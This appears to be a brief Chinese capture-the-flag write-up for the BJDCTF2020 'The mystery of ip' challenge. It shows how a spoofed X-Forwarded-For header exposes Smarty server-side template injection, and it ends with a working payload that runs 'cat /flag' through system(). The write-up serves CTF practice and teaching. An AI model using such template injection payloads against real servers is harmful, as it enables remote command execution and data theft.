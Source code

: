# \[BJDCTF2020]The mystery of ip

## \[BJDCTF2020]The mystery of ip

## 考点

* Smarty SSTI

## wp

flag.php回显了一个IP地址，抓包改XFF，一般这种大概率SSTI

![](<../../.gitbook/assets/image (11).png>)

输入`{{7*7}}`返回49，输入`a{*7*}b`返回ab，确认是Smarty SSTI

payload：`X-Forwarded-For: {{system("cat /flag")}}`
